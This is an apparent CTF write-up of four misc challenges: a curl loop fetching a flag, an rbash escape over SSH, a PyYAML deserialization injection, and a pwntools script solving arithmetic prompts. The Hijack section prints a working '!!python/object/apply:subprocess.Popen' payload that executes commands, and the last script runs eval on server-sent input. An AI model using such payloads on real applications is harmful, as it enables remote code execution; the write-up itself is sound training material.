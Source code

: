# misc

## Persistence
> Solved by Legend

Challenge description


> Thousands of years ago, sending a GET request to /flag would grant immense power and wisdom. Now it's broken and usually returns random data, but keep trying, and you might get lucky... Legends say it works once every 1000 tries.

In this challenge we are given `IP` along with `Port Number`  to connect to the challenge and retrieve the flag using the `GET` request.

Initially checking the URL it gave something gibberish.

![](https://i.imgur.com/Yf7EiWW.png)


The hint of the challenge was that the `/flag` works once in 1000 tries. So I made a loop to do the same.


    for i in `seq 1 1000`; do curl -s http://68.183.45.143:31981/flag | grep -i "HTB" ; done

And after running for sometime it gave the flag.

![](https://i.imgur.com/WbpHGPu.png)

----------

## Restricted
> Solved by Legend

Challenge description


> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

In this challenge we are given SSH shell escape to get the flag.

Going through the docker file we can get some info of what configuration is done to the challenge

1. The shell is set to `rbash` which basically means restricted bash.


    RUN chown -R restricted:restricted /home/restricted


1. The flag file will have some random value appended to it as written in the config


    RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

Since it is a SSH escape challenge I remembered that I have solved a challenge like this before so first thing I did was to check if we can execute remote code without opening the SSH shell.

![](https://i.imgur.com/KAPfFSz.png)


It worked!! So now all I had to do was look for the flag file name as it gets changed and cat it. 

![](https://i.imgur.com/6Tce4Cu.png)


We got the flag.

![](https://i.imgur.com/MQyffnB.png)

----------

## Hijack
> Solved by Starry-Lord


![](https://i.imgur.com/c1ZeYkj.png)


Connect with nc to the docker instance, then create a config and decode the base 64. We can see it gives back YAML syntax so we can try to inject commands with subprocess.Popen:

After base64 encoding it, and using the “Load config” option, This worked!

    !!python/object/apply:subprocess.Popen
    - ls

I had to dig a little more to find how to give arguments to the command:


    !!python/object/apply:subprocess.Popen
    - !!python/tuple
      - ls
      - -la

  
And solved:

```
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
  - flag.txt
```

![](https://i.imgur.com/b0l46TJ.png)

----------

## Remote Computation
> Solved by : thewhiteh4t


    #!/usr/bin/env python3
    
    from pwn import *
    
    host = '188.166.152.84'
    port = 30603
    conn = remote(host, port)
    conn.recvuntil(b'>').decode()
    conn.send(b'1\n')
    
    for x in range(500):
        ques_line = conn.recv().decode()
        ques = ques_line.split(': ')[1].split(' = ?')[0]
        try:
            ans = round(eval(ques), 2)
            if ans < -1337.00 or ans > 1337.00:
                print('Got Memory Error')
                ans = 'MEM_ERR'
        except SyntaxError:
            print('Got Syntax Error')
            ans = 'SYNTAX_ERR'
        except ZeroDivisionError:
            print('Got Zero Error')
            ans = 'DIV0_ERR'
        ans = str(ans).encode()
        conn.sendline(ans)
        print(f'Answered {x} questions')
    
    print(conn.recvuntil(b'}').decode())
    


![](https://i.imgur.com/AVK9rWh.png)

